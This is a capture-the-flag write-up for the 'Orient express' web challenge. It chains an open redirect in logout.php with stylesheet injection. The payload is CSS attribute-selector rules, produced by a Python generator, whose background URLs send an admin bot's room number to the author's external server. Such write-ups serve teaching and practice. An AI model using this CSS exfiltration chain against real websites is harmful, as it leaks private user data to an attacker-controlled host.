






# Orient express

Given description:
```
At first we kind of wanted the CTF to be train themed, but its really not.

anyway here is another web challenge and this one is related to trains.

http://your-instance-ip:10006


*----------------------------------------------------

You arrive at the orient express.

There is 1 other passager, its the admin cat.

You must find his cabin and steal his flag.

Your booking number: **AZ921KVM**


------------------------------------------------------*

(This site is known to the admin cat as http://orientexpress.local:80, make the admin cat visit a link by going to https://your-instance-ip:10004)


Revenge incoming !
```

DOwnloading the source we can see a few things in the code.

`index.php`
```
<?php
$roomnumbers = [
    'AZ921KVM' => 'ROOM-2034',# Players room
    'XXXXXXXX' => 'ROOM-0000' # Bots room
];
```
Here we can see that our given booking number matched "ROOM-2034"

```
<a href="/admin.php" style="display: none;">Admin Check </a>
```
We can also see that there is an admin.php but its hidden.

Checking out admin php we can see that we are allowed to search for a room number every 10 minutes and if the room number exists then we get a flag.
`admin.php`

```
` // sample dictionary
    $roomnumbers = [
        '2034' => 'TDCNET{S0rry_this_flag_is_f4ke_You_need_to_get_the_stupid_admin_cats_room_number}',# Players room
        '0000' => 'TDCNET{f4k3_fl4g}' # Bots room
    ];

    $valueIn = $_POST['value'];
    $value = (string) $valueIn;
    $key =  $roomnumbers[$value];
    if ($key !== NULL) {
        echo "<br>The flag for the tenant in the room '".htmlspecialchars($value)."' is '$key'.";
    } else {
        echo "<br>There does not seem to be any tenants in the room: '".htmlspecialchars($value)."' ";
    }
}
```

So we can essentially see now that we have to get the right room number for the admin / bot somehow. but in the fixed version of the challenge (revenge) there is no xss vector.

So lets try to log in again and see what we have.



We see we have a `?next=` parameter, often times this is a result of an open redirect. in the code: `logout.php`

```
// handle the 'next' GET parameter for redirection
if (isset($_GET['next'])) {
    $next = $_GET['next'];
    header("Location: $next");
    exit;
```



Ok so we have an open redirect primitive here. But that won't help us yet.

Lets read the html of the logged in page

```


<!DOCTYPE html>
<html>
<head>
    <title>Train Car Room Number</title>
    <link rel="stylesheet" type="text/css" href="styles/styles.css"></head>
<body>
    <div class="container">
        <a href="/admin.php" style="display: none;">Admin Check </a>
        <p class="success">Your room number: </p> <a href="/image.php?room=ROOM-2034" class="roomnumber" >ROOM-2034</a><br><br><a href="/logout.php?next=index.php"> logout here</a>    </div>
</body>
</html>
```

So we see there is a stylesheet referenced as `href="styles/styles.css"`

if we change the parameter it changes also in the code 



So we can do css injection and change the stylesheet, by utilizing the open redirect like so

https://orient-express.local:80/index.php?style=../logout.php?next=https://google.com 

Which we can point at our server hosting css



But what can we use this for?

### **CSS ATTRIBUTE SELECTORS TO THE HELP**

So we can actually conditionally style  `<a>` tags in CSS based on their attributes.

Say you want to style an `<a>` tag different if its pdf or html? You can do so by:

```
a[href$=".pdf"] {
  background: url('pdf-icon.png') no-repeat;
  padding-left: 20px;
}
```

soooo what if we want to style the `<a>` tag based on the room number?

```
a[href="/image.php?room=ROOM-2034"] {
  color: red;
}

a[href="/image.php?room=ROOM-2035"] {
  color: blue;
}

a[href="/image.php?room=ROOM-2036"] {
  color: green;
}
```
We can also wildcard the start of the tag and just test the ending:

so just testing the end of the tag being 9997
```
a[href$="9997"]{
    color: blue;
}
```

Instead of beautiful colors we can also just reference an external resource? Like so:

```
a[href$="9997"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9997});
}
a[href$="9998"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9998});
}
a[href$="9999"]{
    background: url(http://link:8000/aaa/log?pin=ROOM+9999});
}
```

So we just need to create a script that will take all the possible room numbers (0000-9999) and create different css stylings depending on the number, to leak the room number.

```python
for i in range(1000,10000):
    print('a[href$="'+str(i)+'"]{\n    background: url(http://134.209.176.239:8000/aaa/log?pin=ROOM+'+str(i)+'});\n}')
```

which will generate the above css, lets call it `lol.css`

so now we need to host the `lol.css` on some vps, mine is: 134.209.176.239

Now we craft a url and send it to the admin cat

`http://orientexpress.local:80/index.php?style=../logout.php?next=http://134.209.176.239:8000/lol.css`


And we get the following 



and we get the room number of the stupid admin cat and can put it into the admin.php to get the flag




________________


We had to make a revenge challenge because I forgot to sanitize one point in the admin page that then allowed for xss lol.


